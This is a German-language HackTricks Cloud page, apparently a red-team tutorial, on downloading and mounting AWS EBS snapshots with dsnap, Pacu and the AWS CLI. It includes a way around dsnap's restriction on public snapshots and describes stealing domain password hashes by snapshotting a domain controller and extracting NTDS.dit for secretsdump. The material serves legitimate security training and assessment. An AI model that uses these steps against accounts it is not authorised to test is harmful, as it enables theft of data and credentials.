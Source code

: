 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Überprüfen eines Snapshots lokal
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Hinweis** dass `dsnap` es nicht erlaubt, öffentliche Snapshots herunterzuladen. Um dies zu umgehen, können Sie eine Kopie des Snapshots in Ihrem persönlichen Konto erstellen und diesen herunterladen:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Für weitere Informationen zu dieser Technik siehe die ursprüngliche Forschung unter [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Du kannst dies mit Pacu unter Verwendung des Moduls [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) tun.

## Überprüfen eines Snapshots in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Mounten Sie es in einer EC2-VM unter Ihrer Kontrolle** (es muss sich in derselben Region wie die Kopie des Backups befinden):

Schritt 1: Ein neues Volume Ihrer bevorzugten Größe und Art ist zu erstellen, indem Sie zu EC2 –> Volumes gehen.

Um diese Aktion auszuführen, folgen Sie diesen Befehlen:

* Erstellen Sie ein EBS-Volume, um es an die EC2-Instanz anzuhängen.
* Stellen Sie sicher, dass das EBS-Volume und die Instanz in derselben Zone sind.

Schritt 2: Die Option "Volume anhängen" ist auszuwählen, indem Sie mit der rechten Maustaste auf das erstellte Volume klicken.

Schritt 3: Die Instanz aus dem Textfeld der Instanz ist auszuwählen.

Um diese Aktion auszuführen, verwenden Sie den folgenden Befehl:

* Hängen Sie das EBS-Volume an.

Schritt 4: Melden Sie sich bei der EC2-Instanz an und listen Sie die verfügbaren Festplatten mit dem Befehl `lsblk` auf.

Schritt 5: Überprüfen Sie, ob das Volume Daten enthält, indem Sie den Befehl `sudo file -s /dev/xvdf` verwenden.

Wenn die Ausgabe des obigen Befehls "/dev/xvdf: data" zeigt, bedeutet dies, dass das Volume leer ist.

Schritt 6: Formatieren Sie das Volume mit dem ext4-Dateisystem, indem Sie den Befehl `sudo mkfs -t ext4 /dev/xvdf` verwenden. Alternativ können Sie auch das xfs-Format verwenden, indem Sie den Befehl `sudo mkfs -t xfs /dev/xvdf` verwenden. Bitte beachten Sie, dass Sie entweder ext4 oder xfs verwenden sollten.

Schritt 7: Erstellen Sie ein Verzeichnis Ihrer Wahl, um das neue ext4-Volume zu mounten. Zum Beispiel können Sie den Namen "newvolume" verwenden.

Um diese Aktion auszuführen, verwenden Sie den Befehl `sudo mkdir /newvolume`.

Schritt 8: Mounten Sie das Volume im Verzeichnis "newvolume" mit dem Befehl `sudo mount /dev/xvdf /newvolume/`.

Schritt 9: Wechseln Sie in das Verzeichnis "newvolume" und überprüfen Sie den Speicherplatz, um die Volume-Montage zu validieren.

Um diese Aktion auszuführen, verwenden Sie die folgenden Befehle:

* Wechseln Sie in das Verzeichnis `/newvolume`.
* Überprüfen Sie den Speicherplatz mit dem Befehl `df -h .`. Die Ausgabe dieses Befehls sollte den freien Speicherplatz im Verzeichnis "newvolume" anzeigen.

Sie können dies mit Pacu unter Verwendung des Moduls `ebs__explore_snapshots` tun.

## Überprüfen eines Snapshots in AWS (unter Verwendung von cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Schattenkopie

Jeder AWS-Benutzer, der die Berechtigung **`EC2:CreateSnapshot`** besitzt, kann die Hashes aller Domänenbenutzer stehlen, indem er eine **Snapshot des Domänencontrollers** erstellt, ihn an eine Instanz, die er kontrolliert, anbindet und die **NTDS.dit und SYSTEM** Registrierungs-Hive-Datei für die Verwendung mit dem Impacket-Projekt secretsdump exportiert.

Sie können dieses Tool verwenden, um den Angriff zu automatisieren: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oder Sie könnten eine der vorherigen Techniken nach dem Erstellen eines Snapshots verwenden.

## Referenzen

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
